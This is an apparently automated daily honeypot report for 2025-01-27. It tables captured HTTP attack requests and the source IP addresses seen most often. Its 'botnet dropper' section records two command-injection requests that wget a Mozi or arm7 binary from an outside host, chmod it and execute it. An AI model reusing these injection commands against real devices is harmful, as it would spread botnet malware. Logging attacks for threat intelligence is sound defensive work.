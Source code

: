```yaml
---
title: "Report: 2025-01-27 "
date: 2025-01-27
desciption: "Report: {today} "
tags: [repport, daily]
---
```


# Daily Report: 2025-01-27
interaction report on http service of various Hhoneypot around the world.
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of source IP addresses](#list_of_source_ip_addresses)
- [List of user_agent](#user_agent)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## botnet_dropper_behaviour
|    | remote_addr    | request                                                                                                                                                                                      |
|---:|:---------------|:---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
|  0 | 103.199.200.87 | GET /shell?cd+/tmp;rm+-rf+*;wget+http://192.168.1.1:8088/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1                                                                                   |
|  1 | 109.236.61.63  | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F185.232.205.184%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1 |

## list_of_source_IP_addresses
|     |   number_of_occurence | remote_addr     |
|----:|----------------------:|:----------------|
|   0 |                  1716 | 170.39.218.109  |
|   1 |                   675 | 4.213.162.155   |
|   2 |                   590 | 92.255.57.58    |
|   3 |                   564 | 167.172.124.8   |
|   4 |                   490 | 146.19.24.168   |
|   5 |                   474 | 185.196.220.253 |
|   6 |                   450 | 193.200.134.188 |
|   7 |                   439 | 5.181.190.248   |
|   8 |                   342 | 3.137.207.247   |
|   9 |                   291 | 80.82.77.202    |
|  10 |                   288 | 78.153.140.147  |
|  11 |                   276 | 134.209.11.36   |
|  12 |                   264 | 188.166.112.7   |
|  13 |                   228 | 179.43.191.146  |
|  14 |                   207 | 95.214.53.198   |
|  15 |                   200 | 185.196.9.221   |
|  16 |                   185 | 78.153.140.224  |
|  17 |                   165 | 95.214.55.43    |
|  18 |                   144 | 159.65.50.87    |
|  19 |                   132 | 109.236.61.63   |
